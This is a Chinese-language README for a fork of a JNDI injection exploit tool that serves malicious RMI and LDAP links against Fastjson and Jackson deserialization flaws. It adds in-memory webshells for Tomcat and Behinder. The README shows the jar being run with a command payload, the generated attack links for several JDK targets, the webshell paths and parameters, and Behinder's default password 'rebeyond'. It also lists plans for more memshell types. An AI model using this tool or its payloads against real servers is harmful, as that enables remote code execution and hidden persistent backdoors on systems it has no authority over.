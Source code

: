## 介绍

JNDI注入利用工具，生成JNDI链接并启动后端相关服务，可用于Fastjson、Jackson等相关漏洞的验证。

原本想自己做一个RMI注入内存马的工具，参考了一下welk1n佬的项目，结果发现佬写的精妙，可以改动的地方很少了已经，索性直接fork大佬的项目，添加工具。
原仓库地址：https://github.com/welk1n/JNDI-Injection-Exploit

冰蝎内存🐴默认密码:rebeyond

## 更新功能

### 内存马注入

直接运行jar包，可以看到添加了Tomcat Memshell、Behinder两种内存马（还在更新中）

```shell
$ java -jar JNDI-Injection-Memshell-1.0-SNAPSHOT-all.jar          
[ADDRESS] >> 127.0.0.1
[COMMAND] >> open /Applications/Calculator.app
----------------------------JNDI Links----------------------------
Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://127.0.0.1:1099/qbf3r4
Target environment(Behinder Memshell):
rmi://127.0.0.1:1099/7oufct
ldap://127.0.0.1:1389/7oufct
Target environment(Tomcat Memshell):
rmi://127.0.0.1:1099/zskyrz
ldap://127.0.0.1:1389/zskyrz
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://127.0.0.1:1099/j5edul
ldap://127.0.0.1:1389/j5edul
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://127.0.0.1:1099/jkzrcz
ldap://127.0.0.1:1389/jkzrcz

----------------------------Server Log----------------------------
2023-08-25 10:07:14 [JETTYSERVER]>> Listening on 0.0.0.0:8180
2023-08-25 10:07:14 [RMISERVER]  >> Listening on 0.0.0.0:1099
2023-08-25 10:07:14 [LDAPSERVER] >> Listening on 0.0.0.0:1389
```

- Tomcat Memshell

  - 命令执行内存马：路径/shell，参数cmd

   ![](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/1.jpg)

- Behinder

  - 冰蝎内存马：路径/shell，密码rebeyond

  ![](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/2.jpg)

## 待实现

- 融合groovy的bypass利用链到项目中。
- 更新weblogic以及其他中间件的内存马注入环境
- 增加注入哥斯拉内存马的模块
- 加入websocket内存马
